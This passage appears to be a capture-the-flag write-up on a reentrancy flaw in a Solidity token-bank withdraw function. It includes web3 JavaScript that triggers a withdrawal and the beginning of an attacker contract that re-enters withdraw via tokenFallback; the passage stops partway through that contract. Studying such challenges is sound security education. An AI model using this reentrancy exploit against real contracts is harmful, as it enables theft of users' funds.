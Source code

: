 ## Vulnerability

This is a simple rentrency vulnerability in :

```solidity
    function withdraw(uint256 amount) public {
        require(balanceOf[msg.sender] >= amount);

        require(token.transfer(msg.sender, amount));
        balanceOf[msg.sender] -= amount;
    }
```

The CHECK - EFFECTS - INTERACTION pattern dictates that the effect `balanceOf[msg.sender] -= amount;` should happen before any interaction `require(token.transfer(msg.sender, amount));`. As `token.transfer(msg.sender, amount)` will potentially call `tokenFallback(address from, uint256 value, bytes data)` on the receiving address if it is a smart contract we can easily design one that initiates a withdrawal, and calls `withdraw` a second time when its `tokenFallback` function is called.

Now, in order to pass the `require(token.transfer(msg.sender, amount));` in `withdraw` we must make sure that we own the tokens from the token contract perspective, let's withdraw them first :

```js
const challengeContract = "0xD8Fe917280D25DF9550F6C94ad395399CCD8e59B";

const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "withdraw",
    type: "function",
    inputs: [{ type: "uint256", name: "amount" }],
  },
  ["500000000000000000000000"]
);

await web3.eth.sendTransaction({
  from: accounts[0],
  to: challengeContract,
  data: data,
});
```

At this point, the challenge contract assumes we have 0 balance, and the token contract considers that our personal address hold a balance of `500000000000000000000000`.
Since we need to rely on smart contract for the attack, we must transfer that balance to our adversarial smart contract which will in turn deposit that to the challenge contract. Let's first design and deploy that one. We only need to make sure than when the contract received our balance it wont start the attack straight away as its `tokenFallback` method will be called, so we protect it with an `enabled` boolean variable. Additionally, we control how many rentrency attack we want to do through a second variable `called`, we only need to withdraw twice so a boolean will do.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma abicoder v1;

interface ITokenBankChallenge {
    function withdraw(uint256 amount) external;
}

interface ISimpleERC223Token {
    function transfer(address to, uint256 value) external returns (bool success);
}

contract Attacker {
    
    ISimpleERC223Token tokenContract;
    ITokenBankChallenge challengeContract;
```
